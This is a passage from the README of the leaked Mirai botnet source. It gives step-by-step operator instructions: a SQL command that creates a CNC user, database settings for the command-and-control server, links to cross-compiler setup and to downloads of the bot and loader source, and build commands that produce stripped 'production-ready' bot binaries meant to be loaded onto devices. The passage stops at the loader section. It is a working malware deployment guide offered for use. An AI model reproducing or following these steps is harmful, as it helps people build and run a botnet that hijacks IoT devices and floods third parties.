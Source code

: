 This will create database for you. To add your user,

		INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file [`./mirai/cnc/main.go`](mirai/cnc/main.go)

Edit these values

		const DatabaseAddr string   = "127.0.0.1"
		const DatabaseUser string   = "root"
		const DatabasePass string   = "password"
		const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


# Setting Up Cross Compilers

Cross compilers are easy, follow the instructions at this link to set up. You
must restart your system or reload .bashrc file for these changes to take
effect.

http://pastebin.com/1rRCc3aD (ref:
[`cross-compile.sh`](scripts/cross-compile.sh))

# Building CNC+Bot

The CNC, bot, and related tools:

1. http://santasbigcandycane.cx/mirai.src.zip - *THESE LINKS WILL NOT LAST
	FOREVER, 2 WEEKS MAX - BACK IT UP!*<br>
	![mirai.src.zip contents](scripts/images/BVc7qJs.png)
2. http://santasbigcandycane.cx/loader.src.zip - *THESE LINKS WILL NOT LAST
	 FOREVER, 2 WEEKS MAX - BACK IT UP!*

### How to build bot + CNC

In mirai folder, there is [`build.sh`](mirai/build.sh) script.

		./build.sh debug telnet

Will output debug binaries of bot that will not daemonize and print out info
about if it can connect to CNC, etc, status of floods, etc. Compiles to
`./mirai/debug` folder

		./build.sh release telnet

Will output production-ready binaries of bot that are extremely stripped, small
(about 60K) that should be loaded onto devices. Compiles all binaries in format:
`mirai.$ARCH` to `./mirai/release` folder


# Building Echo Loader
